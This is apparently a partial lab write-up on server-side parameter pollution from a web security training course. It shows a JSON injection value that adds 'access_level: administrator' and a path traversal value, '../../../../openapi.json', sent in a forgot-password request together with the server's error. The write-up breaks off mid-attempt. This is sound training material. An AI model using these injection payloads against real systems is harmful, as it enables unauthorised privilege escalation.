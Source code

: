 

Consider a similar example, but where the client-side user input is in JSON data. When you edit your name, your browser makes the following request:
```
POST /myaccount
{"name": "peter"}
```
This results in the following server-side request:
```
PATCH /users/7312/update
{"name":"peter"}
```
You can attempt to add the access_level parameter to the request as follows:
```
POST /myaccount
{"name": "peter\",\"access_level\":\"administrator"}
```
If the user input is decoded, then added to the server-side JSON data without adequate encoding, this results in the following server-side request:
```
PATCH /users/7312/update
{"name":"peter","access_level":"administrator"}
```
Again, this may result in the user peter being given administrator access. 
### Lab: Exploiting server-side parameter pollution in a REST URL

To solve the lab, log in as the administrator and delete carlos. 

Base on the name of the challenge, I guessed that the username param should be in a url

Attempt to send the request:
```
POST /forgot-password HTTP/2
Host: 0aa30016049e20128205d8d3000a0045.web-security-academy.net
Cookie: session=nb16w3pRozWy6osZy77N5kAeTeqqTs70
Content-Length: 71
Content-Type: x-www-form-urlencoded

csrf=et7lZKGTmRM2VrDZH3kOb4qGrxGBCbPG&username=../../../../openapi.json
```
```
HTTP/2 500 Internal Server Error
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 250

{
  "error": "Unexpected response from API server:\n<html>\n<head>\n    <meta charset=\"UTF-8\">\n    <title>Not Found<\/title>\n<\/head>\n<body>\n    <h1>Not found<\/h1>\n    <p>The URL that you requested was not found.<\/p>\n<\/body>\n<\/html>\n"
}
```
Which is
```html
<html>
<head>
    <meta charset="UTF-8">
    <title>Not Found</title>
</head>
<body>
    <h1>Not found</h1>
    <p>The URL that you requested was not found.</p>
</body>
</html>
```
Try adding `#` or `?` return